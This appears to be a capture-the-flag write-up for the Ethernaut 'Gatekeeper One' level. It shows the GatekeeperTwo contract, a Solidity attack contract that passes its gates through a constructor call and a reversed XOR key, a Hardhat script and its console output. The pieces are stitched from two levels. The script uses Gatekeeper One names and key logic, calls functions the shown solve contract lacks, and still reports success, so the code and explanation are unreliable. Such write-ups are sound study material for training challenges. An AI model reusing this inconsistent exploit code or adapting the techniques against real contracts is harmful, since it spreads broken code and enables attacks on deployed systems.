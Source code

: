 ```yaml
---
title: Ethernaut Gatekeeper One
tags: [ethernaut]
style: border
color: primary
description: Ethernaut Gatekeeper One challenge writeup
---
```


## Gatekeeper One

### Challenge

This gatekeeper introduces a few new challenges. Register as an entrant to pass this level.

#### Things that might help:

* Remember what you've learned from getting past the first gatekeeper - the first gate is the same.
* The `assembly` keyword in the second gate allows a contract to access functionality that is not native to vanilla Solidity. See [here](http://solidity.readthedocs.io/en/v0.4.23/assembly.html) for more information. The `extcodesize` call in this gate will get the size of a contract's code at a given address - you can learn more about how and when this is set in section 7 of the [yellow paper](https://ethereum.github.io/yellowpaper/paper.pdf).
* The `^` character in the third gate is a bitwise operation (XOR), and is used here to apply another common bitwise operation (see [here](http://solidity.readthedocs.io/en/v0.4.23/miscellaneous.html#cheatsheet)). The Coin Flip level is also a good place to start when approaching this challenge.


```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract GatekeeperTwo {

  address public entrant;

  modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
  }

  modifier gateTwo() {
    uint x;
    assembly { x := extcodesize(caller()) }
    require(x == 0);
    _;
  }

  modifier gateThree(bytes8 _gateKey) {
    require(uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == uint64(0) - 1);
    _;
  }

  function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
    entrant = tx.origin;
    return true;
  }
}
```

### Background

This challenge is somewhat similar to `GatekeeperOne`. It mainly has multiple conditions in order that need to be satisfied in order to pass the challenge.

The `extcodesize` bytecode returns (pushes onto the stack) the size of the contract it got as an argument (poped from the stack). According to the [yellow paper](https://ethereum.github.io/yellowpaper/paper.pdf) section 7, page 11, footnote 5, 

> During initialization code execution, EXTCODESIZE on the address should return zero...

This will be very useful in order to bypass the second modifier.

The `keccack` function is the hash function used on the ethereum blockchain.


### Attack

In order to enter, three `modifier`s need to be satisfied, the first require the `msg.sender` and `tx.origin` to be different. This can be achieved using a smart contract to trigger the `enter` function. Then the `extcodesize` needs to return a value of `0`. As discussed already, this can be achieved if the caller code (in this case the attacker controlled contract), is executed during its initialization (`constructor` execution). Finally the last `modifier` requires the a simple `boolean` equation to be satisfied. This operation is very easy to reverse since its just an `XOR` (`^`) operator. 

* Create a contract that calls the `GatekeeperOne` `enter` function during the `constructor` execution
* To calculate the `_gateKey` to provide simply re-arranging the check to `_gateKey = (uint64(0) - 1) ^ uint64(bytes8(keccak256(abi.encodePacked(this)))))`
* Trigger the attacker controlled contract to call the `enter` function

#### GatekeeperOneSolve.sol

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.4;

import '../challenges/GatekeeperTwo.sol';

contract GatekeeperTwoSolve {

    constructor(address payable _gatekeeperTwoAddress) public {
        GatekeeperTwo gatekeeperTwoContrtact = GatekeeperTwo(_gatekeeperTwoAddress);
        bytes8 gateKey = bytes8((uint64(0) - 1) ^ uint64(bytes8(keccak256(abi.encodePacked(this)))));
        gatekeeperTwoContrtact.enter(gateKey);
    }

}
```


#### gatekeeper-two-solve.js

```javascript
const hre = require("hardhat");
const { ethers, upgrades } = require("hardhat");

async function main() {
    gatekeeperOneAddress = "0x24315b9ab5e38cF2F6126F7827D2EB3aC5296b27";
    contract = await ethers.getContractAt("GatekeeperOne", gatekeeperOneAddress);
    
    const accounts = await hre.ethers.getSigners();
    account = accounts[0];
    
    GatekeeperOneSolve = await ethers.getContractFactory("GatekeeperOneSolve");
    gatekeeperOneSolve = await GatekeeperOneSolve.deploy();
    await gatekeeperOneSolve.deployed();

    console.log("Initial entrant: " + await contract.entrant())

    // generate the gate key
    gateKey = ethers.utils.hexZeroPad(ethers.utils.hexConcat([
        "0x01", 
        "0x0000", 
        ethers.utils.hexDataSlice(account.address, 18)
    ]), 8)

    console.log(gateKey)

    // submit the gate key
    tx = await gatekeeperOneSolve.connect(account).enter(contract.address, gateKey)
    receipt = await tx.wait()

    console.log("Entrant        : " + await contract.entrant())
    
}

main().catch((error) => {
    console.error(error);
    process.exitCode = 1;
});
```

```bash
$ npx hardhat run scripts/gatekeeper-two-solve.js --network rinkeby
Compiled 1 Solidity file successfully
Initial entrant: 0x0000000000000000000000000000000000000000
Entrant        : 0x11bAe9eA1851939a485f1F00b7B0Eec099e9276d
```

### Success Message

Way to go! Now that you can get past the gatekeeper, you have what it takes to join [theCyber](https://etherscan.io/address/thecyber.eth#code), a decentralized club on the Ethereum mainnet. Get a passphrase by contacting the creator on [reddit](https://www.reddit.com/user/0age) or via [email](0age@protonmail.com) and use it to register with the contract at [gatekeepertwo.thecyber.eth](https://etherscan.io/address/gatekeepertwo.thecyber.eth#code) (be aware that only the first 128 entrants will be accepted by the contract).

(unfortunately by the time I was done with this the 128 spots were already filled)

